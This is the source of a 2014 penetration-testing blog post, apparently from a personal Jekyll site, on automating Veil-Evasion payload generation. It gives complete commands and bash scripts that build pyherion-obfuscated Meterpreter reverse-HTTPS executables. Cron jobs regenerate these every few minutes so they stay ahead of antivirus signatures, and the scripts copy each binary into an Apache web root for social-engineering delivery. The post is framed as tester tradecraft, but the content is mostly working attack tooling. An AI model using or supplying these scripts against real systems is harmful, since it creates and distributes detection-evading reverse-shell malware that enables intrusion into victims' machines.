 ```yaml
---
layout: post
title: Fresh Veil- Automatically Generating Payloads
category: Payloads
year: 2014
month: 2
day: 17
published: true
summary: Keep your Veil payloads fresh to avoid getting caught by signatures
image: 
---
```

     
<div class="row">  
     <div class="span9 columns">

<p>Veil is awesome - it makes payload generation easy and supports a wide variety of payloads with new ones being dropped pretty often.</p>

<p>Getting caught by AV during a test is not awesome.</p>
<p>Being caught because the target’s AV had a signature hit on you is even worse. Because YOU (the tester) messed up. You didn’t take the extra few minutes to regenerate a payload. I’ve been there and I’m sure you’ve been there. It sucks and you feel silly.</p>

<p>The solution? Use Veil’s command line options and cron to regenerate payloads every 30 minutes. </p>

<br><p><b>Server Build</b></p>
<p>This is the basic build. Let’s assume that you have a server that you catch social engineering payloads on. Static IP (or domain).</p>
<p>For setup, make a directory called <code>/root/payload_temp</code> and use git to clone Veil-Evasion into that folder. Run through the setup script in Veil-Evasion/setup. </p>
<p>The <code>/root/payload_temp</code> directory is where we’ll generate the payload before we move it to our apache root.</p><br>

<p>Let’s take a look at Veil’s command line options:</p>
<img src="{{site.url}}/assets/freshveil1.png" style="height:400px"><br><br>

<p>Using these options, you can generate any payload from within Veil from the command line.</p>

<br><p>For the example code below we’ll make a <code>python/meterpreter/rev_https_contained</code> payload:</p>

<p><code>python /PATH/TO/Veil-Evasion.py -p python/meterpreter/rev_https_contained -c compile_to_exe=Y use_pyherion=Y LHOST=X.X.X.X LPORT=443 --overwrite</code></p>

<p>The <code>--overwrite</code> is necessary here to ensure that the new payloads replace the old ones. You will of course need to replace the X.X.X.X with your WAN IP or local IP if running it within a private network.</p>

<p>With the Veil command figured out, create a bash script called <code>/payload_gen.sh</code> to generate the payload and move it to the apache root:</p>

<pre><code>#!/bin/bash
cd /root/payload_temp
python /PATH/TO/Veil-Evasion.py -p python/meterpreter/rev_https_contained -c compile_to_exe=Y use_pyherion=Y LHOST=X.X.X.X LPORT=443 -o /root/payload_temp/FreshPayload --overwrite
sleep 1
mv -f /root/veil-output/compiled/payload.exe /var/www/FreshPayload.exe</code></pre>

Now we’ll add this to the cron:
<p><code>crontab -e</code> will bring up the cron settings. In the first two blank lines enter:
<pre><code>10 * * * * /payload_gen.sh
40 * * * * /payload_gen.sh</code></pre>

<p>This will make the script run twice an hour at the 10 and 40 minute marks. You can heavily customize the timing options using cron, but this is a basic implementation.

<p>That’s it. Easy, right?
<p>Good. Moving on…


<br><br><p><b>Variable IP Auto-Generation</b></p>
<p>Chances are, you’re in and out of networks that you’re testing and it’s no fun to find a possible vector that needs a binary and then have to go through the whole process of generating the payload before you can test.

<p>So <code>payload_gen2.sh</code> will pull the active eth0 IPv4 address and plug it into the same script:

<pre><code>#!/bin/bash
ADDY=$(ifconfig eth0 | awk '/inet addr/{print $2}' | awk -F':' '{print $2}')
cd /root/payload_temp
python /PATH/TO/Veil-Evasion.py -p python/meterpreter/rev_https_contained -c compile_to_exe=Y use_pyherion=Y LHOST=$ADDY LPORT=443 --overwrite
sleep 1
mv -f /root/veil-output/compiled/payload.exe /var/www/FreshPayload.exe</code></pre>

<p>For the crontab on this payload, I personally have it regenerate every minute so I never need to think about whether I got a new IP since it generated. Edit crontab using <code>crontab -e</code> and place the following code at the bottom:
<pre><code>* * * * * /payload_gen2.sh</code></pre>

<p>You could, of course, stack multiple payloads of different types (perhaps with some additional post-processing) in this script so you get a full, fresh set of all of the many payload types that Veil can generate. All ready for you in your Apache folder.




     </div>
     </div>
     <div id="disqus_thread"></div>
<script type="text/javascript">
    /* * * CONFIGURATION VARIABLES * * */
    var disqus_shortname = 'bluscreenofjeff';
    
    /* * * DON'T EDIT BELOW THIS LINE * * */
    (function() {
        var dsq = document.createElement('script'); dsq.type = 'text/javascript'; dsq.async = true;
        dsq.src = '//' + disqus_shortname + '.disqus.com/embed.js';
        (document.getElementsByTagName('head')[0] || document.getElementsByTagName('body')[0]).appendChild(dsq);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript" rel="nofollow">comments powered by Disqus.</a></noscript>
<div class="row">
     <div class="span9 column">
          <p class="pull-right">{% if page.previous.url %} <a href="{{page.previous.url}}" title="Previous Post: {{page.previous.title}}"><i class="icon-chevron-left"></i></a>     {% endif %}   {% if page.next.url %}    <a href="{{page.next.url}}" title="Next Post: {{page.next.title}}"><i class="icon-chevron-right"></i></a>     {% endif %} </p>  
     </div>
</div>
<script>
  (function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
  (i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
  m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)
  })(window,document,'script','//www.google-analytics.com/analytics.js','ga');

  ga('create', 'UA-61938642-1', 'auto');
  ga('send', 'pageview');

</script>